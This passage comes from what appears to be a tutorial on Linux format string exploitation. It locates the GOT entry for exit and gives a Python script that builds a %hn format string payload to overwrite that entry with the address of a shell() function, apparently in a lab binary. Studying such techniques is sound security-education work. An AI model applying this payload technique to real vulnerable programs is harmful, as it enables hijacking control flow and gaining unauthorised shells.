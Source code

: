 The disassembly allows us to locate the GOT entry for the exit:

![linux exploitation string vulnerabilities](images/2022-06-09_08-49_1.png)

![linux exploitation string vulnerabilities](images/2022-06-09_08-49_2.png)

We will use the address `0x804a01c` and write the address
of the `shell()` function.

![linux exploitation string vulnerabilities](images/2022-06-09_08-49_3.png)

Let's create the exploit:

```python
import struct

shell = 0x80484eb # address of function shell()
exit = 0x804a01c # the address we read in gdb
exit_high = 0x804a01c + 2 # in order to perform second write

buf = ""
buf += struct.pack("<I", exit_high)
buf += struct.pack("<I", exit)

counter = 0x804 - len(buf) # we calculate the counter in the same way

buf += "%" + str(counter) + "p"
buf += "%4$hn" # first we write the high bytes

counter = 0x84eb - 0x804
buf += "%" + str(counter) + "p"
buf += "%5$hn"

print (buf)

```
